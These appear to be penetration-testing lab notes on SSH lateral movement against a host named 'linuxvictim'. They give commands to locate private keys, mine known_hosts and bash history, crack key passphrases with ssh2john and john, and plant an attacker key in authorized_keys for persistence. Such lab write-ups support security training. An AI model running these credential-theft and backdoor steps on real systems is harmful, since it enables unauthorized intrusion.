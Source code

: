 ## Lateral Movement with SSH

Some systems permit password authentication to connect to a Linux machine via SSH, many require public key authentication. The public key is stored in the ~/.ssh/authorized_keys 
file of the server the user is connecting to. The private key is typically stored in the ~/.ssh/ directory on the system the user is connecting from.

Private SSH keys are a prime target for an attacker. We can search for it
 
```
find /home/ -name "id_rsa"
```
Once we located the private key file, we need to check if the key is protected with a passphrase by reading the key file
The Proc-Type: 4,ENCRYPTED tell us the key is encrypted with password passphrase.
```
root@linuxvictim:/home/linuxvictim# cat svuser.key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,351CBB3ECC54B554DD07029E2C377380
```

we can recon user’s ~/.ssh/known_hosts file to find machines that have been connected to recently or check the bash history

```
root@linuxvictim:/home/linuxvictim/.ssh# cat known_hosts
root@linuxvictim:/home/linuxvictim# tail .bash_history
```
Lastly we need to Convert private key to john readable format form ssh2john.py and crack the passphase for the private key using John


```
kali@kali:~$ python /usr/share/john/ssh2john.py svuser.key > svuser.hash
kali@kali:~$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash
```
#### ssh persistence

We can insert our public key into a user's ~/.ssh/authorized_keys file. allowing us to access the machine again
via SSH later on.

Set up keypair on attack vm. The id_rsa for the private key and id_rsa.pub for the public key. We can then cat the
contents of id_rsa.pub and copy it to the clipboard. 
```
kali@kali:~# ssh-keygen
```

On the linuxvictim machine, we can insert the public key into the linuxvictim user’s
authorized_keys file with the following command.

```
linuxvictim@linuxvictim:~$ echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=
kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```
Now we can then ssh from our Kali VM using our private key to the linuxvictim machine and log in as
the linuxvictim user without a password

```
kali@kali:~$ ssh -i /id_rsa linuxvictim@linuxvictim
```
